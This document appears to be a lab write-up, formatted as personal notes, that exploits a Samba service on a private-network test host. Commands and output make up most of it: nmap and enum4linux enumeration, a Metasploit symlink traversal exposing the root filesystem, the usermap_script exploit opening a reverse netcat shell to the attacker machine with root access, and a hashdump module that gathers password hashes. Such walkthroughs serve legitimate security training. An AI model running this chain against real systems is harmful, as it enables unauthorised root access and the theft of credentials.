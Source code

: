 ## **Enumeration**

```bash
nmap -sV -sC -vV 192.168.160.129
```
![[Pasted image 20241020170252.png]]
## **Enumerating the SMB shares**

```sh
enum4linux -L -S 192.168.160.129
```
![[Pasted image 20241020170350.png]]

## **Launch Metasploit**

> msfconsole

### **Exploiting SMB Using symlink_traversal**
```
msf6 auxiliary(scanner/ssh/ssh_login) > use auxiliary/admin/smb/samba_symlink_traversal  
msf6 auxiliary(admin/smb/samba_symlink_traversal) > set RHOSTS 192.168.160.129  
RHOSTS => 192.168.160.129  
msf6 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp  
SMBSHARE => tmp  
msf6 auxiliary(admin/smb/samba_symlink_traversal) > run  
[*] Running module against 192.168.160.129  
[*] 192.168.160.129:445 — Connecting to the server…  
[*] 192.168.160.129:445 — Trying to mount writeable share ‘tmp’…  
[*] 192.168.160.129:445 — Trying to link ‘rootfs’ to the root filesystem…  
[*] 192.168.160.129:445 — Now access the following share to browse the root filesystem:  
[*] 192.168.160.129:445 — \\192.168.160.129\tmp\rootfs\  
[*] Auxiliary module execution completed  
  
exit
```

```
smbclient — no-pass //192.168.160.129/tmp 
cd rootfs;ls
```
![[Pasted image 20241020170640.png]]
## **Exploiting SMB Using usermap_script**
```
msf6 auxiliary(admin/smb/samba_symlink_traversal) > use exploit/multi/samba/usermap_script  
[*] No payload configured, defaulting to cmd/unix/reverse_netcat  
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.160.129  
RHOSTS => 192.168.160.129  
msf6 exploit(multi/samba/usermap_script) > run  
[*] Started reverse TCP handler on 192.168.160.128:4444   
[*] Command shell session 1 opened (192.168.160.128:4444 -> 192.168.160.129:46840) at 2024–02–11 14:41:48 -0500  
id  
uid=0(root) gid=0(root)
```

## **Dumping the user hashes**
```
Ctrl Z

msf6 exploit(multi/samba/usermap_script) > use post/linux/gather/hashdump  
msf6 post(linux/gather/hashdump) > set SESSION 1  
SESSION => 1  
msf6 post(linux/gather/hashdump) > run
```
![[Pasted image 20241020170746.png]]